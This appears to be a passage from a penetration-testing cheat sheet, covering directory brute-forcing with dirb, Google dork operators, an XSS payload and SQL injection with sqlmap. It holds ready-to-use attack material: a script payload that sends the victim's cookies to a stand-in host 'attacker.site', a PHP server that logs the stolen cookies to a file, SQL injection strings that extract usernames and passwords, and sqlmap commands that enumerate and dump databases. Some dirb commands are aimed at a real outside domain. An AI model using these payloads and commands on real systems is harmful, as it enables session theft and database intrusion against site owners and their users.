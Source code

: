 ```bash
dirb http://google.com -X ".php,.bak"
```
Save results in a file:
```bash
dirb http://google.com -o results.txt
```

#### Google Dorks
  - `site:` Include only results on a given hostname
  - `intitle:` Filters according to the title of a page
  - `inurl:` Similar to intitle but works on the URL of a resource
  - `filetype:` Filters by using the file extension of a resource
  - `AND`, `OR`, `|` Use logical operators to combine your expressions
  - `-` Filter out a keyword or a command's result

Example: `-inurl:(htm|html|php|asp|jsp) intitle:"index of" "last modified" "parent directory" txt OR doc OR pdf`  
See also the [Google Hacking Database](https://www.exploit-db.com/google-hacking-database)

#### XSS
Payload: `<script>var i = new Image(); i.src = "http://attacker.site/log.php?q+"+document.cookie;</script>`  
Server:
```php
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['q'];
fwrite($fp, $cookie);
fclose($fp);
?>
```

#### SQLi
Payloads:
  - `' OR 'a'='a`
  - `' UNION SELECT Username, Password FROM Accounts WHERE 'a'='a`
  - `' OR substr(user(),1,1) = 'a`
  - `' UNION SELECT user(); -- -`

Sqlmap:
  - `sqlmap -u 'http://victim.site/view.php?id=1141' --cookie "PHPSESSID=m42ba4etbktcktvjadirnsqqg4;`
  - `sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U`
  - `sqlmap -u 'http://victim.site/view.php?id=1141' --banner`
  - `sqlmap -u 'http://victim.site/view.php?id=1141' -v3 --fresh-queries`
  - `sqlmap -u 'http://victim.site/view.php?id=1141' --users`
  - `sqlmap -u 'http://victim.site/view.php?id=1141' --dbs`
  - `sqlmap -u 'http://victim.site/view.php?id=1141' --tables`
  - `sqlmap -u 'http://victim.site/view.php?id=1141' -D <db-name> -T <table-name>`
  - `sqlmap -u 'http://victim.site/view.php?id=1141' --current-db <db-name> --columns`
  - `sqlmap -u 'http://victim.site/view.php?id=1141' --current-db <db-name> --dump`
  - `sqlmap -u 'http://victim.site/login.php' --data='user=a&pass=a' -p user --technique=B --banner`
  - `sqlmap -r post-vuln-sqli.txt -p user --technique=B --banner`
